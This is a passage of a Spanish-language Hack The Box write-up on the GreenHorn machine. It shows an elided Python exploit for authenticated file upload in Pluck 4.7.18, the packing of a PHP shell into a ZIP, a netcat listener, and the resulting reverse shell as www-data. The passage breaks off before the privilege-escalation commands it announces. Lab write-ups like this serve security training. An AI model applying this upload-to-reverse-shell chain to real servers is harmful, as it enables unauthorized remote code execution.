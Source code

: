 ```python
Replace <hostname>
import requests
from requests_toolbelt.multipart.encoder import MultipartEncoder

login_url = "http://greenhorn.htb/login.php"
upload_url = "http://greenhorn.htb/admin.php?action=installmodule"

...
...
...
```
Seguimos con la creación de un archivo ZIP para poder inyectar el RCE de manera correcta, ya que el _file upload form_ solo acepta los archivos ZIP.

```bash
┌──(kali㉿kali)-[~/HTB/GreenHorn/exploits/Pluck-4.7.18]
└─$ zip -q shell.zip shell.php 
                                                                                                                                                                                                                                             
┌──(kali㉿kali)-[~/HTB/GreenHorn/exploits/Pluck-4.7.18]
└─$ ls *.zip
shell.zip
```
En este punto ejecutaremos el exploit teniendo el **Netcat** en escucha para realizar la _Reverse Shell_. Este exploit en concreto se ejecuta indicando los parámetros: **python3 _[exploit]_.py _[zip-file]_.zip**.
```bash 
┌──(kali㉿kali)-[~/HTB/GreenHorn/exploits/Pluck-4.7.18]
└─$ sudo nc -nlvp 8043
listening on [any] 8043 ...

------------------------------------------------------------------------------

┌──(kali㉿kali)-[~/HTB/GreenHorn/exploits/Pluck-4.7.18]
└─$ python3 poc.py
ZIP file path: shell.zip
Login account
ZIP file download.

------------------------------------------------------------------------------

┌──(kali㉿kali)-[~/HTB/GreenHorn/exploits/Pluck-4.7.18]
└─$ sudo nc -nlvp 8043
listening on [any] 8043 ...
connect to [10.10.14.207] from (UNKNOWN) [10.10.11.25] 59398
SOCKET: Shell has connected! PID: 2561
whoami
www-data
```
¡Perfecto, tenemos acceso a la máquina! Somos el usuario **www-data** así que nuestro trabajo es elevar privilegios. Al ser una _Reverse Shell_, la shell no es interactiva, así que trataremos la **TTY**. Esta es la metodología que empleo personalmente, así que dejo el listado de comandos a ejectutar:
